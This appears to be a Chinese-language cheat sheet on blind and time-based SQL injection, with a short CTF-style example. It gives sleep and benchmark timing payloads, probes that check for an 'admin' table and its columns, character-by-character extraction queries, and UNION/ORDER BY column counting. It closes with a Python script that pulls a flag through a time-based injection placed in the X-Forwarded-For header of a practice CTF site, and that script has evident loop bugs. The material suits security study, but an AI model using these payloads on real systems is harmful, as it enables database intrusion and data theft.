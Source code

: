 一般适用于无回显消息，但是错误的话，页面会不正确的情况，而延时注入适用于在 sql 语句错误时页面还正常的情况。

常用函数:

- Length()函数 返回字符串的长度
- Substr()截取字符串
- Ascii()返回字符的 ascii 码
- if(expr1,expr2,expr3) 判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句

### 延时注入

```sql
(IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false))
-- BENCHMARK()

select sleep(if(length(@@version)=6,20,0));
--长度为6 sleep 2秒，否则0秒。

select sleep(if(ord(mid((select user()),1,1))<150,0,2));
and exists(select * from admin)
--说明存在表admin

admin and exists(select admin from admin)
--说明存在admin列

and (select length(username) from admin limit 1)>0
--猜解数据库列名长度：修改后面的>0是猜解长度

and (select top 1 ascii(substring(username 1,1)) from admin)>0
--猜解内容：猜解出的内容需对应ASCII表,ascii、substring为MySQL的函数，MsSQL略有不同
ORDER BY num
--爆字段长度
and 1=1 union select 1,2,3,4...n
--匹配字段:
group_concat()
--函数让检索出来的语句以行的形式显示。如果不用这个函数，就不会看到输出结果。

```

```py
import requests
import string

s=requests.session()
url="http://ctf5.shiyanbar.com/web/wonderkun/index.php"

flag=''
guess=string.lowercase+string.uppercase+string.digits
for i in range(33):
    for st in guess:
        headers={"x-forwarded-for":"1'+"+"(select case when(substr((select flag from flag) from %d for 1)='%s') then sleep(5) else 1 end) and '1'='1" %(i,st)}
        try:
          res=s.get(url,headers=headers,timeout=4)
        except requests.exceptions.ReadTimeout:
            flag+=st
    print "flag:",flag
    break
print "result:"+flag
```
